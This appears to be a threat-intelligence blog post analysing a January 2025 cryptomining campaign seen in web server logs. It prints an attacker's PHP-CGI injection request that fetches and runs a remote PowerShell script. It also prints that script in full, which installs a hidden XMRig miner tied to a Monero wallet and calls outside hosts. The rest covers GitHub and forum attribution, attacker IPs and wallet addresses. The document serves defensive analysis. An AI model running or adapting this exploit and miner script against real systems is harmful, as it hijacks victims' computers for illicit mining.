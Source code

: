 ```yaml
---
title: "The rick and morty XMR and other crytominer. "
date: 2025-01-xx
desciption: "Report: {today} "
tags: [crytominer, investigation]
---
```



# The rick and morty XMR and other crytominer. 


Around the beginning of January an IP (87.120.125.13) made a request with the following content. 

```sh
 /cgi-bin/php-cgi.exe?arg=
Content-Type: text/plain

<?php system('powershell.exe -Command "& {iwr -Uri http://xxx.xxx.xxx/script.ps1 -OutFile script.ps1; ./script.ps1}"');?> HTTP/1.1" 

```

The content of the scrit that was tempted to download is as follows  

```sh 
# Set Execution Policy
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted

# Variables
$xmrigUrl = "https://github.com/xmrig/xmrig/releases/download/v6.22.2/xmrig-6.22.2-msvc-win64.zip"
$configUrl = "https://evilbit.pro/config.json"
$oastUri = "http://jnkmfjqcorurgzffkisbf61r0lluhxxxz.oast.fun"
$downloadPath = "$env:USERPROFILE\Downloads\xmrig.zip"
$installPath = "C:\xmrig"
$walletAddress = "45Lu4Zzcp64etdoVnc9jSU84WBygC7p5mdrowZic6LVDZERsDszFgcRcF63Gm6kVc7XsvgpvhH36SNfCmUAb1TwbSG7PVTa"
$poolUrl = "pool.supportxmr.com:443"
$workerName = "MyWorker"

# Download XMRig
Write-Host "Downloading XMRig..."
Invoke-WebRequest -Uri $xmrigUrl -OutFile $downloadPath -UseBasicParsing

# Extract XMRig
Write-Host "Extracting XMRig..."
Add-Type -AssemblyName System.IO.Compression.FileSystem
[System.IO.Compression.ZipFile]::ExtractToDirectory($downloadPath, $installPath)

# Download config.json
Write-Host "Downloading config.json..."
$configPath = Join-Path $installPath "xmrig-6.22.2\config.json"
Invoke-WebRequest -Uri $configUrl -OutFile $configPath -UseBasicParsing

# Make GET request to the specified URI
Write-Host "Making GET request to the URI..."
Invoke-WebRequest -Uri $oastUri -UseBasicParsing | Out-Null

# Start XMRig in a hidden window
Write-Host "Starting XMRig in a hidden window..."
$xmrigExe = Join-Path $installPath "xmrig-6.22.2\xmrig.exe"
Start-Process -FilePath $xmrigExe -ArgumentList "--config=$configPath" -WindowStyle Hidden

Write-Host "XMRig has started mining in a hidden window! Use Task Manager to stop it if needed."

```

We could observe that one of the elements that doesn't seem standard is the following URL: "https://evilbit.pro/config.json"

An analysis revealed several interesting elements related to the Evilbit cryptocurrency:

- A suspicious website: https://evilbit[.]pro/config.json
- An associated GitHub repository: https://github.com/r1ckpr0/evilbit
- In the repositories of user r1ckpr0 (https://github.com/r1ckpr0?tab=repositories), we find a familiar tool: XMRig (https://github.com/r1ckpr0/xmrig-evilbit)
- The Evilbit repository of r1ckpr0 is actually a fork of another user named evilmortyyy: https://github.com/evilmortyyy/evilbit
- A fork carrying the cryptominer for Windows and Mac: (https://github.com/younicoin/evilbit)

Key points:

- Two users with pseudonyms linked to Rick and Morty
- A website promoting the Evilbit cryptocurrency
- A connection to a cryptominer

It's interesting to note that these elements seem to be linked to a discussion on a Bitcoin forum:
- https://bitcointalk.org/index.php?topic=5351909.0
- https://bitcointalk.org/index.php?topic=5351909.20

evilmortyy and r1ckpr0 are both present in these discussions, which starts to confirm the fact that it's actually only one person behind these two accounts.

We don't have  time for a full investigation, if we find time we'll modify this article to improve it and add elements 

## The other Xmrig sections 

Towards the end of January, we began to see interesting requests with references to a cryto-miner, 

| ip    |   date | request     |
|----:          |----------------------:|   :----------------|
185.213.175.171	|	19/Jan/2025:19:31:12|	{ id :1, jsonrpc : 2.0 , method : login , params :{ login : 49PybvnVss4jhuo7AxfL2TU1CbMXt2qJVhnVPqoys2qxcr2iMwJrCKoSfgAuoxYo6jToQfHpbeREMWKBLApcuCESSDgecfZ , pass : x , agent : XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019 , algo :[ cn/1 , cn/2 , cn/r , cn/fast , cn/half , cn/xao , cn/rto , cn/rwz , cn/zls , cn/double , cn/ccx , cn-lite/1 , cn-heavy/0 , cn-heavy/tube , cn-heavy/xhv , cn-pico , cn-pico/tlo , cn/upx2 , rx/0 , rx/wow , rx/arq , rx/graft , rx/sfx , rx/keva , argon2/chukwa , argon2/chukwav2 , argon2/ninja , astrobwt ]}}
185.213.175.171	|	21/Jan/2025:19:21:17|	{ id :1, jsonrpc : 2.0 , method : login , params :{ login : 45ygML2DygAWWzMCBLEN56DCyrCNH2NbRJPPFkaXWULKS5PvSsVosji9i9QZKwvfSNhFVnc8PrjDRbg948UPW3fzVdoLbzH , pass : x , agent : XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019 , algo :[ cn/1 , cn/2 , cn/r , cn/fast , cn/half , cn/xao , cn/rto , cn/rwz , cn/zls , cn/double , cn/ccx , cn-lite/1 , cn-heavy/0 , cn-heavy/tube , cn-heavy/xhv , cn-pico , cn-pico/tlo , cn/upx2 , rx/0 , rx/wow , rx/arq , rx/graft , rx/sfx , rx/keva , argon2/chukwa , argon2/chukwav2 , argon2/ninja , astrobwt ]}}
185.91.69.110	|	22/Jan/2025:19:48:22|	{ id :1, jsonrpc : 2.0 , method : login , params :{ login : 43TjhWZp2toWPLdTVQn3KJ6fbwjcSpuSZRzezU4Fnbzmdv3NJRKZkMJLt5wJCfNo5D1ne5wFYEPqaThtcthjWH5ZFAzD6y2 , pass : x , agent : XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019 , algo :[ cn/1 , cn/2 , cn/r , cn/fast , cn/half , cn/xao , cn/rto , cn/rwz , cn/zls , cn/double , cn/ccx , cn-lite/1 , cn-heavy/0 , cn-heavy/tube , cn-heavy/xhv , cn-pico , cn-pico/tlo , cn/upx2 , rx/0 , rx/wow , rx/arq , rx/graft , rx/sfx , rx/keva , argon2/chukwa , argon2/chukwav2 , argon2/ninja , astrobwt ]}}
185.91.69.110	|	22/Jan/2025:19:48:22|	{ id :1, jsonrpc : 2.0 , method : login , params :{ login : 43TjhWZp2toWPLdTVQn3KJ6fbwjcSpuSZRzezU4Fnbzmdv3NJRKZkMJLt5wJCfNo5D1ne5wFYEPqaThtcthjWH5ZFAzD6y2 , pass : x , agent : XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019 , algo :[ cn/1 , cn/2 , cn/r , cn/fast , cn/half , cn/xao , cn/rto , cn/rwz , cn/zls , cn/double , cn/ccx , cn-lite/1 , cn-heavy/0 , cn-heavy/tube , cn-heavy/xhv , cn-pico , cn-pico/tlo , cn/upx2 , rx/0 , rx/wow , rx/arq , rx/graft , rx/sfx , rx/keva , argon2/chukwa , argon2/chukwav2 , argon2/ninja , astrobwt ]}}
195.170.172.128	|	26/Jan/2025:09:29:34|	{ id :1, jsonrpc : 2.0 , method : login , params :{ login : 43fRm2LCtZ4ULu4wDTRpawa4wBrvv8EBgNw6zvZ1brKwRxwGSeorgdZjEXeWDhxwavcMYyq8GTpWs4eZ7H9dAVPvFYt3hzD , pass : x , agent : XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019 , algo :[ cn/1 , cn/2 , cn/r , cn/fast , cn/half , cn/xao , cn/rto , cn/rwz , cn/zls , cn/double , cn/ccx , cn-lite/1 , cn-heavy/0 , cn-heavy/tube , cn-heavy/xhv , cn-pico , cn-pico/tlo , cn/upx2 , rx/0 , rx/wow , rx/arq , rx/graft , rx/sfx , rx/keva , argon2/chukwa , argon2/chukwav2 , argon2/ninja , astrobwt ]}}
185.91.69.110	|	26/Jan/2025:09:23:27|	{ id :1, jsonrpc : 2.0 , method : login , params :{ login : 45NUAgtBMGZZAYKEciGqYXYaRGvW8KBJRFveeWNEokSJ9oswC3hQoaJdBF9H87wPePUdBtND1soe3MADtfsMnQ9pEjhCNKZ , pass : x , agent : XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019 , algo :[ cn/1 , cn/2 , cn/r , cn/fast , cn/half , cn/xao , cn/rto , cn/rwz , cn/zls , cn/double , cn/ccx , cn-lite/1 , cn-heavy/0 , cn-heavy/tube , cn-heavy/xhv , cn-pico , cn-pico/tlo , cn/upx2 , rx/0 , rx/wow , rx/arq , rx/graft , rx/sfx , rx/keva , argon2/chukwa , argon2/chukwav2 , argon2/ninja , astrobwt ]}}


## Monero wallet requested

49PybvnVss4jhuo7AxfL2TU1CbMXt2qJVhnVPqoys2qxcr2iMwJrCKoSfgAuoxYo6jToQfHpbeREMWKBLApcuCESSDgecfZ
45ygML2DygAWWzMCBLEN56DCyrCNH2NbRJPPFkaXWULKS5PvSsVosji9i9QZKwvfSNhFVnc8PrjDRbg948UPW3fzVdoLbzH
43TjhWZp2toWPLdTVQn3KJ6fbwjcSpuSZRzezU4Fnbzmdv3NJRKZkMJLt5wJCfNo5D1ne5wFYEPqaThtcthjWH5ZFAzD6y2
43fRm2LCtZ4ULu4wDTRpawa4wBrvv8EBgNw6zvZ1brKwRxwGSeorgdZjEXeWDhxwavcMYyq8GTpWs4eZ7H9dAVPvFYt3hzD
45NUAgtBMGZZAYKEciGqYXYaRGvW8KBJRFveeWNEokSJ9oswC3hQoaJdBF9H87wPePUdBtND1soe3MADtfsMnQ9pEjhCNKZ
